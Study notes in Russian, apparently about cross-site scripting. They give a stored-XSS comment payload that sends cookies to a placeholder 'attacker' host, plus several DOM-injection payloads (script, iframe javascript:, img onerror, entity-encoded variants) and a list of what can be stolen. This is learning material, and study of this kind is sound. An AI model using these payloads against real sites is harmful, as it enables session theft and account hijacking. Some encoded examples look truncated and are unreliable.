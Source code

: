 Оставляют комментарий вида

```html
<html>
  <script>
    window.location = "http://attacker/?cookie" + document.cookie;
  </script>
</html>
```

Нужно более грубокое знание работы сайтов.
Как рендерится страница, как работает скрипт

Находим уезвимости сайта -> выполням скрипт -> готово

#### Dom-based XSS

<input value="userInput">

добавим в инпут`"><script>...</script>` - готово
получим
<input value="`"><script>...</script>`

Или (сложнее)

добавим в инпут `"><iframe SRC="javascript:alert('XSS')"></iframe>`
получим
<input value=""><iframe SRC="javascript:alert('XSS')"></iframe>

Или с картинкой

добавим в инпут `"><img src=i onerror=alert('xss')>`
получим
<input value=""><img src=i onerror=alert('xss')>

Или заенкодить скрипт
<IMG SRC=&#106;&#106;&#106;&#106;&#106;&#106;&#106;&#106;&#106;&#106;&#106;>

Или так
<IMG SRC=&#0000106;&#0000106;&#0000106;&#0000106;&#0000106;&#0000106;&#0000106;&#0000106;&#0000041>

JS BUG

#### Что можно (обычно) воровать?

Cookie (ls, ss)
Keylogging (passwords)
Phishing (fake forms)
Mining

#### Кто должен нас спастись?

frameworks (react, angular, vue)

AngularJS
usemap (поправлено после 1.5)
